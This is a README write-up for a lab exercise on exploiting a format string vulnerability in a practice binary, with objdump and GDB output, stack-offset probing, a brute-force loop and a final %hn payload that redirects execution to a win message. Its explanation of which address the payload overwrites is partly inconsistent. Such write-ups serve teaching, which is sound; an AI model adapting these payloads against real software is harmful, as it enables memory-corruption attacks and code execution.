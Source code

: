# ex09 README

## Objective

The goal of this exercise is to exploit a format string vulnerability to redirect code execution and see the message "code execution redirected! you win".

## Steps

### 1\. Identify the `target` Variable Address

We start by finding the address of the `target` variable using the `objdump` tool:

```sh
objdump -t bin | grep target
```

This command provides the address of the `target` variable:

```plaintext
0804973c g     O .bss   00000004              target
```

The address of the `target` variable is `0x0804973c`.

### 2\. Analyze the Binary with GDB

Next, we use GDB to analyze the binary and understand the structure of the `vuln` function:

```sh
gdb -q ./bin
```

Inside GDB, we set a breakpoint at the `vuln` function:

```sh
break vuln
run
```

Disassemble the `vuln` function to understand its structure:

```sh
disassemble vuln
```

Output:

```plaintext
Dump of assembler code for function vuln:
   0x080484d2 <+0>:     push   %ebp
   0x080484d3 <+1>:     mov    %esp,%ebp
   0x080484d5 <+3>:     sub    $0x218,%esp
   0x080484db <+9>:     mov    0x8049730,%eax
   0x080484e0 <+14>:    mov    %eax,0x8(%esp)
   0x080484e4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484eb <+25>:    lea    -0x208(%ebp),%eax
   0x080484f2 <+32>:    mov    %eax,(%esp)
   0x080484f5 <+35>:    call   0x804839c <fgets@plt>
   0x080484fa <+40>:    lea    -0x208(%ebp),%eax
   0x08048500 <+46>:    mov    %eax,(%esp)
   0x08048503 <+49>:    call   0x80483cc <printf@plt>
   0x08048508 <+54>:    movl   $0x1,(%esp)
   0x0804850f <+61>:    call   0x80483ec <exit@plt>
   ```

### 3\. Finding the Correct Offset

To find the correct offset for the format string vulnerability, we tested the binary with different format string inputs to print stack values and locate our input:

```sh
python -c "print('AAAA ' + ' %08x' * 20)" | ./bin
```

Output:

```plaintext
AAAA  00000200 b7782c20 b779e328 41414141 30252020 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078 25207838 20783830 78383025 38302520 30252078
```

From the output, we observed `41414141` at the 4th position, indicating our offset is 4.

### 4\. Crafting the Payload

Based on the identified offset, we needed to craft a payload to overwrite the return address. The target address of the message "code execution redirected! you win" was identified as `0x080485f0`.

Through a process of trial and error, we crafted a payload to overwrite the return address with the desired address:

1. **Initial Attempts**: We started by attempting to overwrite the return address using simpler payloads to understand the behavior. For example:

    ```sh
    python -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%16930052x' + '%n')" | ./bin
    ```

    This approach resulted in segmentation faults, indicating misalignment or incorrect values.

2. **Systematic Testing**: We automated the process of finding the correct value by looping through potential values:

    ```sh
    for i in $(seq 10000000 10000 20000000); do
      payload=$(python3 -c "print('\xf0\x85\x04\x08' + '%x'*10 + '%${i}x' + '%11\$n')");
      output=$(echo -e "$payload" | ./bin);
      echo "Trying $i";
      if echo "$output" | grep -q "code execution redirected"; then
        echo "Success! Payload: $payload";
        break;
      fi
    done
    ```

3. **Successful Payload**: After several iterations, we found the correct value to print, which resulted in successful code execution redirection:

    ```sh
    python -c 'print "\x24\x97\x04\x08" + "%33968x%4$hn"' | ./bin
    ```

    Output:

    ```plaintext
     200
    code execution redirected! you win
    ```
![Succsess Flag](./images/image.png)


### Conclusion

By carefully analyzing the binary and using a systematic trial and error approach, we were able to exploit the format string vulnerability and redirect code execution. This exercise demonstrated the power and risk of format string vulnerabilities in C programs.

### Challenges and Learnings

- **Challenge**: Identifying the correct offset and value for the format string.
- **Solution**: Systematically testing different offsets and payloads.
- **Learning**: The importance of understanding format string vulnerabilities and how they can be exploited to redirect code execution.

By following these steps and understanding the exploitation process, we successfully completed the level and redirected code execution to see the message "code execution redirected! you win".
